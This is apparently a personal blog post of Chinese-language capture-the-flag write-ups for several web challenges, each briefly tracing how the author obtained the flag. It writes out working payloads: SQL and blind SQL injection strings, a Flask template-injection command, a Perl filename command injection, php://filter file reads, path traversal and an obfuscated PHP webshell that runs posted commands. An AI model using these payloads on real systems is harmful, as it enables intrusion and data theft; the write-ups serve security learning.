title: 12.27-web-wp
author: John Doe
tags: []
categories: []
date: 2022-12-27 12:03:00
---
# [watevrCTF-2019]Cookie Store1

启动靶机，结合题目，估计需要cookie，抓包


对cookie进行base64解密




猜测构造cookie即可成功购买flag


成功购买到flag

# [CISCN2019 总决赛 Day2 Web1]Easyweb1

截屏，是个登录页面


查看源码，发现一个`/image.php?id=2`，发现id为1,2,3时有回显


sqlmap没跑出来，查看writeup为源码泄露。访问：robots.txt


在`/image.php.bak`下发现文件



源码分析

<li>GET方式传入变量id的值，若没有则为1</li>
<li>GET方式传入变量path的值，若没有则为空</li>
<li>addslashes() 函数返回在预定义字符之前添加反斜杠的字符串，单引号（'）、双引号（"）、反斜杠（\）</li>
<li>str_replace()函数将两个变量内的\0、%00、\'、'都替换为空</li>
<li>将变量$id与$path拼接进SQL语句</li>

也就是说，`\\0`在传入变量$id的值后，首先被转义为`\0`，再经过`addslashes()`函数的处理，变量`$id="\\0"`，再由`str_replace()`函数的替换，最终变为`\`。

payload:`?id=\\0&path=or 1=if(length(database())>1,1,-1)%23`

正常回显

使用脚本爆出库名，判断用户信息应该在users表中，继续爆出列名：

`注：`因为过滤了`'`单、`"`双引号，所以需要将字符串转换成十六进制：`users -> 0x7573657273`


得到列名：`username、password`。接下来就是常规的盲注，需要获取用户名和密码：

成功得到username和password

成功登录


使用phtml成功上传，但是不知道为什么连接不上，看网上师傅的用文件名写一句话，成功上传连接，拿下flag

# [HITCON 2017]SSRFme1


上来就是代码审计

则目录$sandbox为sandbox/md5(orange111.73.46.229:80)即：sandbox/864300xxxxxxxxxxcc4523ef49c50223

GET ./可以查看当前路径，GET …/可以查看上一级路径，于是先：`http://0ba28389-bff6-48a1-952c-cfd44f67bfb3.node3.buuoj.cn/?url=../../../../../../&filename=aaa`

然后访问aaa：
`http://1c2ae46f-4e1e-4987-bb41-072e27d42dd7.node4.buuoj.cn:81/sandbox/2eeed2f9aeae6311b507ada8fb98809e/aaa`

`
首先得满足前面的文件存在, 才会继续到open语句, 所以在执行命令前得保证有相应的同名文件:
?url=&filename=bash -c /readflag| 先新建一个名为“bash -c /readflag|”的文件，用于之后的命令执行
?url=file:bash -c /readflag|&filename=aaa 再利用GET执行bash -c /readflag保存到111文件
访问sandbox/md5/aaa（得到flag）`

这题真的难，拿下flag，留下大佬的wp：<a href="https://blog.csdn.net/qq_45521281/article/details/105868449">perl脚本中GET命令执行漏洞（[HITCON 2017]SSRFme）</a>

# [b01lers2020]Welcome to Earth1

一直跳转到die页面，快速的右键看下第一页源码

访问`/chase/`，又是很快的跳转，拼手速看源码



`/leftt/`

终于不跳转了


跳来跳去也没发现有用的，看一下wp发现在`/static/js/door.js`里


最后来到`static/js/fight.js`

脚本排序，拿到flag

# [GYCTF2020]Ezsqli1

很霸气的前端



有回显


使用脚本拿下flag

# [NCTF2019]SQLi1


给出了sql查询语句:`select * from users where username='' and passwd=''`

用dirsearch发现/robots.txt页面

发现/hint.txt


发现当密码和admin密码相同时就能得到flag


`username=\&passwd=||1;%00`时，得到一个welcome.php

`username=\&passwd=||0;%00`时，无welcome.php。可以利用bool盲注进行注入，爆破passwd

payload:`username=\&passwd=||passwd/**/regexp/**/"^y";%00`


继续使用脚本爆破密码

使用任意账号和这个密码，成功登录


拿下flag

# [RootersCTF2019]I_<3_Flask1

这里记录arjun的使用方法`arjun -u url -c 150 -d 0.5`
<li>pip3 install arjun</li>

<li>python3 setup.py install</li>

<li>输入arjun -h显示如下即可</li>

扫描url得到参数是name

得到参数是name

测试发现存在SSTI模板注入

payload:`/?name={{lipsum.__globals__['os'].popen('cat flag.txt').read()}}`

拿到flag

# [HarekazeCTF2019]encode_and_encode1


点到源码里面看看



引用一篇CSDN的文章，这个不太理解<a href=https://blog.csdn.net/m0_62905261/article/details/125956021>[HarekazeCTF2019]encode_and_encode</a>


抓包传参:`{"page":"\u0070\u0068\u0070://filter/convert.base64-encode/resource=/\u0066\u006c\u0061\u0067"}`


base64解码拿下flag

# [网鼎杯2018]Unfinish1

是一个登录页面，测试了一下没发现什么，使用dirsearch扫描，发现/register.php

再次找到CSDN的解释，使用payload:`0'+ascii(substr((select * from flag) from 1 for 1))+'0`注册

成功获取到flag值得第一位asii：102即f，结果如上，使用py脚本


拿到flag

# [网鼎杯 2020 半决赛]AliceWebsite1

进入页面，在网址处发现`?action=`，试一下../../

直接拿下flag

# [HFCTF2020]JustEscape1

进入页面，先使用dirsearch扫一下后台

没扫到有用的，看一下wp，解释是是vm2的沙箱逃逸问题：<a href=https://github.com/patriksimek/vm2/issues/225>github上的poc</a>

payload由于本站超文本语言无法引入，<a href=https://blog.csdn.net/qq_25500649/article/details/119568880>CSDN关于这题vm2沙箱逃逸的wp</a>

得到flag

# [GXYCTF2019]StrongestMind1

这题，明显是要写个py脚本一直算，网上引用一个开始


得到flag

# October 2019 Twice SQL Injection1


题目也提醒我们是二次注入了，先注册一个admin


又注册了一个`666'#`账号

没有信息回显了，猜测sql语句可能是：`select ? from table where username='666'#'`

使用联合注入爆数据库：`2' union select database()#`



爆表:`666' union select group_concat(table_name)from information_schema.tables where table_schema=database()#
`


爆字段:`666' union select group_concat(column_name)from information_schema.columns where table_schema=database() and table_name='flag'#`

最后使用：`1' union select group_concat(flag) from flag#`


拿到flag

# [SUCTF 2018]GetShell1


发现文件上传，发现甚至连字母和换行都过滤了

`
<?=
$_=[];
$_=($_===$_);
$___=~区[$_].~册[$_].~区[$_].~勿[$_].~皮[$_].~针[$_];//system
$____=~研[$_].~寻[$_].~尽[$_].~欢[$_].~立[$_];//_POST
$___($$____[_]);
`

删除换行，得到：`<?=$_=[];$_=($_===$_);$___=~区[$_].~册[$_].~区[$_].~勿[$_].~皮[$_].~针[$_];$____=~研[$_].~寻[$_].~尽[$_].~欢[$_].~立[$_];$___($$____[_]);`


成功getshell，发现是个假flag，看wp发现在env里，执行env

得到flag

记录有关本题的两篇文章：
<li><a href=https://blog.csdn.net/fmyyy1/article/details/116133703>[SUCTF 2018]GetShell</a></li>
<li><a href=https://www.leavesongs.com/PENETRATION/webshell-without-alphanum.html>一些不包含数字和字母的webshell</a></li>

# [GKCTF 2021]easycms1


进入页面，题目提示后台是弱口令，先找一下后台


运气好，在/admin.php发现后台

弱口令尝试发现账号密码为admin/12345，根据题目这题应该和cms有关系

修改文件头，但是不能保存


先上传一个文件，然后修改名字为：`../../../../../system/tmp/vfkm`


成功保存

拿下flag

# [极客大挑战 2020]Roamphp1-Welcome1


进入页面，发现啥都加载不出来，看了下wp才发现是正常情况，需要修改请求方式

在yakit中修改为POST请求


成功拿到部分源码

源码分析：
<li>若传参方式不为`POST`，则返回`405`</li>
<li>POST方式传入参数`roam1`和`roam2`的值</li>
<li>俩变量的值不能相等，但`sha1()`加密后的值相等</li>

因为`sha1()`不能加密数组，所以构造payload：`roam1[]=1&roam2[]=2`

打开phpinfo


成功搜索到，拿到flag

